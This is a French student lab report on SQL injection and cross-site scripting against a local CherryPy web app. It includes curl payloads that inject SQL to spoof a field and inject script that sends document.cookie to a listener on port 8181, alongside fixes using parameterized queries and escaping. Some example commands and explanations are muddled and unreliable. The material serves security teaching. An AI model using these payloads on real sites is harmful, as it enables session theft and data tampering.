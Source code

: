 # Rendu "Injection"

## Binome

AMEVIGBE Yao Isidore
Nom, Prénom, email: ___


## Question 1

* Quel est ce mécanisme?
Ce mécanisme est la vérification de la chaîne de caractères à insérer par une regex. 
qui vérifie si la chaîne de caractère ne contient pas de caractères spéciaux.

* Est-il efficace? Pourquoi? 

Non ! car une injection peut probablement contenir des conditions. 
Par ailleurs sur le navigateur web on peut toute fois désactiver le javascript pour faire des injections **sql**

## Question 2

* Votre commande curl

Voici la commande curl pour pouvoir envoyer des requêtes en POST: 

```sh 
$ curl -X POST  -d "chaine=<la chaine à insérer>&submit=OK"  http://localhost:8080/
```

Exemple d'insertion
===================

```sh 
$ curl -X POST  -d "chaine=2 ; SELECT * from /submit=OK"  http://localhost:8080/
```

Insertion
=========

```sh 
$ <p>
Liste des chaines actuellement insérées:
<ul>
<li>isi envoye par: 127.0.0.1</li>
<li>cat envoye par: 127.0.0.1</li>
<li>cat envoye par: 127.0.0.1</li>
<li>cat envoye par: 127.0.0.1</li>
<li>cat envoye par: 127.0.0.1</li>
<li>res envoye par: 127.0.0.1</li>
<li>res envoye par: 127.0.0.1</li>
<li>res envoye par: 127.0.0.1</li>
<li>res2 envoye par: 127.0.0.1</li>
<li>res2 envoye par: 127.0.0.1</li>
<li>res2 envoye par: 127.0.0.1</li>
<li>res80 envoye par: 127.0.0.1</li>
<li>res2 envoye par: 127.0.0.1</li>
<li>res2 envoye par: 127.0.0.1</li>
<li>res90 envoye par: 127.0.0.1</li>
<li>res2 envoye par: 127.0.0.1</li>
<li> envoye par: 127.0.0.1</li>
<li>res2 envoye par: 127.0.0.1</li>
<li> envoye par: 127.0.0.1</li>
<li> envoye par: 127.0.0.1</li>
<li>2  envoye par: 127.0.0.1</li>

``` 

On voit avec la dernière ligne que la donnée a bien été inséré.

## Question 3

* Votre commande curl qui va permettre de rajouter une entree en mettant un contenu arbitraire dans le champ 'who'

```sh 
$ curl -X POST  -d "chaine=hack','192.152.145.18') #"  http://localhost:8080/
```

* Expliquez comment obtenir des informations sur une autre table
Pour obtenir des informations sur une autre table on peut réaliser cette commande en la combinant avec une autre en utilisant **AND** puisque la première requête sera exécuté. Si on avait utilisé un **OR** cela ne fonctionneraît pas.

## Question 4

Rendre un fichier server_correct.py avec la correction de la faille de
sécurité. Expliquez comment vous avez corrigé la faille.

Implémentation 
==============

```py 
    def index(self, **post):
        cherrypy.response.cookie["ExempleCookie"] = "Valeur du cookie"
        cursor = self.conn.cursor()
        if cherrypy.request.method == "POST":
            requete = "INSERT INTO chaines (txt,who) VALUES(%s,%s)"
            values = (post["chaine"], cherrypy.request.remote.ip)
            print("req: [" + requete + "]")
            cursor.execute(requete, values)
            self.conn.commit()

        chaines = []
        cursor.execute("SELECT txt,who FROM chaines");
        for row in cursor.fetchall():
            chaines.append(row[0] + " envoye par: " + row[1])

        cursor.close()
        return '''
```

Explication
===========

Pour la corriger on a utilisé une requête paramétré composé de deux chaînes de caractères. 
Le premier spécifiant la colonne **post["chaine"]** et la colonne **cherrypy.request.remote.ip**

## Question 5

* Commande curl pour afficher une fenetre de dialog. 
```sh 
$ curl -X POST  -d "chaine=<script>alert(\"hello\")</script>"  http://localhost:8080/
```

* Commande curl pour lire les cookies
```sh 
$ curl -X POST  -d "chaine=<script>document.location=\"http://localhost:8181?chaine=\".concat(document.cookie)</script>"  http://localhost:8080/
```

Pour récupérer les cookies il suffit de lancer la commande curl vers un serveur sur le port 8181. On peut même evaluer le cookie et lui passer cela en paramètre.
## Question 6

Rendre un fichier server_xss.py avec la correction de la
faille. Expliquez la demarche que vous avez suivi.

Implémentation
==============

Pour eviter les failles **xss** il faut échapper les données lors de l'insertions et lors de l'affichage. 
Lors de l'affichage car c'est en ce moment que les données sont exécutés par le navigateur et ainsi eviter que ces données soient transmises aux malveillants. 

Pour l'insertion un code javascript peut eventuellement exécuter des codes malveillants nottament pour supprimer des données dans la BDD en réalisant des requêtes.

```py 
    def index(self, **post):
        cherrypy.response.cookie["ExempleCookie"] = "Valeur du cookie"
        cursor = self.conn.cursor()
        if cherrypy.request.method == "POST":
            requete = "INSERT INTO chaines (txt,who) VALUES(%s,%s)"
            values = (escape(post["chaine"]), cherrypy.request.remote.ip)
            print("req: [" + requete + "]")
            cursor.execute(requete, values)
            self.conn.commit()

        chaines = []
        cursor.execute("SELECT txt,who FROM chaines");
        for row in cursor.fetchall():
            chaines.append(escape(row[0]) + " envoye par: " + row[1])

        cursor.close()
        return '''
```
